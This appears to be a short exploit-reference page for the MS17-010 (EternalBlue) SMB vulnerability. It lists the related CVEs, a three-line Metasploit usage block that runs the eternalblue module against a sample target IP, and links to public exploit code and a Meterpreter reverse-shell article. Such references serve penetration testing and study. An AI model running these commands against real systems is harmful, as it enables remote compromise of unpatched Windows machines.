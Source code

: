 # MS17-010

- exp [FUZZBUNCH](https://github.com/exploitx3/FUZZBUNCH)

Vulnerability reference:
 * [MS17-010](https://technet.microsoft.com/library/security/ms17-010)
 * [CVE-2017-0143](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143)
 * [CVE-2017-0144](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144)
 * [CVE-2017-0145](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0145)
 * [CVE-2017-0146](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0146)
 * [CVE-2017-0148](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0148)
 * [CVE-2017-0147](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0147)

## Usage
```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > set rhost 10.10.1.13
msf exploit(ms17_010_eternalblue) > run
```

## References

* [Windows2012上如何通过攻击ETERNALBLUE获得Meterpreter反弹](https://mp.weixin.qq.com/s?__biz=MzI5MzY2MzM0Mw%3D%3D&mid=2247483946&idx=1&sn=cbe2e5a08470d699daeb74d7904581c7&scene=45#wechat_redirect)
* [MS17-017: Microsoft Windows 7 SP1 x86 Privilege Escalation Vulnerability](https://securityonline.info/ms17-017-microsoft-windows-7-sp1-x86-privilege-escalation-vulnerability/)  
* [AutoBlue-MS17-010 - an semi-automated fully working, no-bs, non-metasploit version of the public exploit code for MS17-010 AKA EternalBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)
* [MS17-010 EternalSynergy / EternalRomance / EternalChampion aux+exploit modules #9473](https://github.com/rapid7/metasploit-framework/pull/9473)
* [worawit/MS17-010](https://github.com/worawit/MS17-010)
